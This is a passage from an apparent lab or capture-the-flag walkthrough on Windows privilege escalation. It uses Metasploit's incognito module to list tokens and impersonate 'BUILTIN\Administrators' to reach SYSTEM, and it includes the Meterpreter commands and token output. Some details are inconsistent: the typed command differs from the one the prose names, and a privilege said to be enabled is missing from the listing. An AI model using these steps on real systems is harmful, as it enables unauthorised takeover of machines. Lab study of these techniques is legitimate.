 ```
SeManageVolumePrivilege         Perform volume maintenance tasks          Disabled
SeImpersonatePrivilege          Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege         Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege   Increase a process working set            Disabled
SeTimeZonePrivilege             Change the time zone                      Disabled
SeCreateSymbolicLinkPrivilege   Create symbolic links                     Disabled

```
2. You can see that two privileges(SeDebugPrivilege, SeImpersonatePrivilege) are enabled. Let's use the incognito module that will allow us to exploit this vulnerability. Enter: load incognito to load the incognito module in metasploit. Please note, you may need to use the use incognito command if the previous command doesn't work. Also ensure that your metasploit is up to date.
```
meterpreter> load incognito
```
3. To check which tokens are available, enter the list_tokens -g. We can see that the BUILTIN\Administrators token is available. Use the impersonate_token "BUILTIN\Administrators" command to impersonate the Administrators token. What is the output when you run the getuid command? => NT AUTHORITY\SYSTEM
	1. meterprter > load_tokens -g
	```
	Delegation Tokens Available
	========================================
	\
	BUILTIN\Administrators
	BUILTIN\Users
	NT AUTHORITY\Authenticated Users
	NT AUTHORITY\NTLM Authentication
	NT AUTHORITY\SERVICE
	NT AUTHORITY\This Organization
	NT AUTHORITY\WRITE RESTRICTED
	NT SERVICE\AppHostSvc
	NT SERVICE\AudioEndpointBuilder
	NT SERVICE\BFE
	NT SERVICE\CertPropSvc
	NT SERVICE\CscService
	NT SERVICE\Dnscache
	NT SERVICE\eventlog
	NT SERVICE\EventSystem
	NT SERVICE\FDResPub
	NT SERVICE\iphlpsvc
	NT SERVICE\LanmanServer
	NT SERVICE\MMCSS
	NT SERVICE\PcaSvc
	NT SERVICE\PlugPlay
	NT SERVICE\RpcEptMapper
	NT SERVICE\Schedule
	NT SERVICE\SENS
	NT SERVICE\SessionEnv
	NT SERVICE\Spooler
	NT SERVICE\TrkWks
	NT SERVICE\TrustedInstaller
	NT SERVICE\UmRdpService
	NT SERVICE\UxSms
	NT SERVICE\Winmgmt
	NT SERVICE\WSearch
	NT SERVICE\wuauserv
	Impersonation Tokens Available
	========================================
	BUILTIN\IIS_IUSRS
	NT AUTHORITY\NETWORK
	NT SERVICE\AudioSrv
	NT SERVICE\DcomLaunch
